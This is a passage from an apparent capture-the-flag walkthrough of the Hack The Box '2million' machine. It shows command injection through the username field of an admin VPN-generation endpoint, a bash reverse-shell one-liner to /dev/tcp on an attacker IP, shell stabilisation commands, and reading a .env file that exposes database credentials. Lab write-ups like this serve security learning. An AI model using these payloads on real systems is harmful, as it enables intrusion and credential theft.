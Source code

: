 - Now we are admin so let's try post request to /api/v1/admin/vpn/generate which was not authorized to us before. This time also we get message saying there is a missing parameter username and when we add username to our request, we get out vpn key generated.
![generate vpn](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/2million/generate_vpn.png)

### Command injection

It’s probably not PHP code that generates a VPN key, but rather some Bash tools that generate the necessary information for a VPN key.

It’s worth checking if there is any command injection.

If the server is doing something like gen_vpn.sh [username], then I’ll try putting a `;` in the username to break that into a new command. I’ll also add a `#` at the end to comment out anything that might come after my input. It works:
![command injection](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/2million/CI.png)

Let's included a bash -i reverse shell command in the login.php file using system command and fired up my netcat listener on port 1234.

`bash -c "bash -i >& /dev/tcp/10.0.2.15/1234 0>&1" #`
![shell command](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/2million/shell_command.png)

A reverse shell will land on your netcat after you send the request.
![reverse shell](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/2million/rev_shell.png)

Let's first stabilize the shell using the following command:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

The folder contains .env file which is generally used to set environment variables for use by the application. This application is more faking a .env file rather than actually using it in a framework, but the .env file still looks the same:
```bash
www-data@2million:~/html$ ls -al
total 56
drwxr-xr-x 10 root root 4096 Jun 16 16:20 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Jun 16 16:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
www-data@2million:~/html$ 
```
When we cat out the  .env file, we get following data:
```bash
www-data@2million:~/html$ cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```